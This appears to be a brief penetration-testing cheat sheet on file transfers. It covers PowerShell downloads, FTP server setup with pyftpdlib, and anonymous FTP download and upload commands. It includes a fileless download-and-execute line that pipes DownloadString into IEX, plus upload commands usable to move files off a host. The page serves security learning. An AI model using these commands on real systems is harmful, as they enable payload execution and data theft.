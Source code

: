 ```yaml
---
title: "File Transfers for Penetration Testing"
date: 2024-07-30
---
```


---

# Windows

## Download Files using Powershell

The easiest way to download files using Powershell is to use the `Net.WebClient` class. This class provides a intuitive way to download HTTP HTTPS and FTP files.

```powershell
$webClient = New-Object System.Net.WebClient
$webClient.DownloadFile("http://example.com/file.txt", "C:\path\to\file.txt")
```

Of course, you can also use the `Invoke-WebRequest` cmdlet which is the windows equivalent of `curl` or `wget`. The `DownloadFile` method is used to download a file to a specified location.

```powershell
Invoke-WebRequest -Uri "http://example.com/file.txt" -OutFile "C:\path\to\file.txt"
# or
curl -Uri "http://example.com/file.txt" -OutFile "C:\path\to\file.txt"
# or
wget -Uri "http://example.com/file.txt" -OutFile "C:\path\to\file.txt"
```

## Download Fileless strings using Powershell

In very rare cases, you may need to download a file without writing it to disk. This can be done using the `Net.WebClient` class and the `DownloadString` method. The IEX command can be used to execute the downloaded script.

```powershell
$webClient = New-Object System.Net.WebClient
$webClient.DownloadString("http://example.com/file.txt") | IEX
```

---

# Linux

---

# FTP

### Server

We can start a FTP server on Linux and window machine using the following command, just make sure to have the `pyftpdlib` package installed using pip or any other package manager:

```bash
sudo python3 -m pyftpdlib -i <IP> -p 21
```

### Client Download

here is how we can download a file from the FTP server:

```bash
ftp <IP>
UserName: anonymous
Password: anonymous
ftp> get <FileName>
```

or

```bash
wget ftp://<IP>/<FileName>
```

### Client Upload

````bash
ftp <IP>
UserName: anonymous
Password: anonymous
ftp> put <FileName>

```bash
curl -T localfile.txt ftp://anonymous:anonymous@ftp.<IP>/path/to/remote/file.txt
````

{{< comments >}}
